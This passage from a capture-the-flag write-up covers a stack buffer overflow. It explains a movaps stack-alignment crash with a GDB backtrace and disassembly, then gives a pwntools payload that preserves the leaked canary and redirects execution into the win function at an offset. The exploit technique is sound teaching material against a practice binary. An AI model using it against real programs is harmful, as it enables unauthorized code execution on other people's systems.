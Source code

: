 
SIGSEGV.  No flag.

The exploit worked and it _did_ call `win` as shown by the backtrace:

```
[#0] 0x7fae7bb4b13d → do_system(line=0x56401f907b37 "cat flag1.txt")
[#1] 0x56401f9079fc → win()
[#2] 0x7ffdad48ebb0 → add DWORD PTR [rax], eax
```

But why the SIGSEGV from `libc`?:

```
   0x7fae7bb4b12d <do_system+349>  mov    QWORD PTR [rsp+0x68], 0x0
   0x7fae7bb4b136 <do_system+358>  mov    r9, QWORD PTR [rax]
   0x7fae7bb4b139 <do_system+361>  punpcklqdq xmm0, xmm1
 → 0x7fae7bb4b13d <do_system+365>  movaps XMMWORD PTR [rsp+0x50], xmm0
   0x7fae7bb4b142 <do_system+370>  call   0x7fae7bc05a00 <__GI___posix_spawn>
   0x7fae7bb4b147 <do_system+375>  mov    rdi, r12
   0x7fae7bb4b14a <do_system+378>  mov    DWORD PTR [rsp+0x8], eax
   0x7fae7bb4b14e <do_system+382>  call   0x7fae7bc05900 <__posix_spawnattr_destroy>
   0x7fae7bb4b153 <do_system+387>  mov    eax, DWORD PTR [rsp+0x8]
```

The first hit from Googling `"movaps XMMWORD PTR [rsp+0x50], xmm0"` (see little `→` above) returned: [https://blog.binpang.me/2019/07/12/stack-alignment/](https://blog.binpang.me/2019/07/12/stack-alignment/) (pause and read this).

There are two ways to solve this:

1. Write a return ROP gadget on the stack after the base pointer but before the `win` address.  The problem with that is that we'd need to know the entire base process address (we need to figure this out anyway for the 2nd flag).
2. Jump _into_ `win` avoiding the `push rbp` that is misaligning the stack.

```
Dump of assembler code for function win:
   0x000056401f9079ec <+0>:	push   rbp
   0x000056401f9079ed <+1>:	mov    rbp,rsp
   0x000056401f9079f0 <+4>:	lea    rdi,[rip+0x140]        # 0x56401f907b37
   0x000056401f9079f7 <+11>:	call   0x56401f9077e0 <system@plt>
   0x000056401f9079fc <+16>:	nop
   0x000056401f9079fd <+17>:	pop    rbp
   0x000056401f9079fe <+18>:	ret
```

Option 2 for this part of the challenge is the simpler solution, instead of using `0x79ec` we'll use `0x79f0`.

To test this we first need to attach GDB to the parent process with `attach 35650`.  This is a parent PID.  This can be obtained from the right pane with `p.pid`.

Next we just repeat the previous steps, `c` in the left pane, then `p.sendline()` in the right.

Now the exploit:

```
p.sendline(buf + canary + 8*b'B' + p16(0x79f0))
```
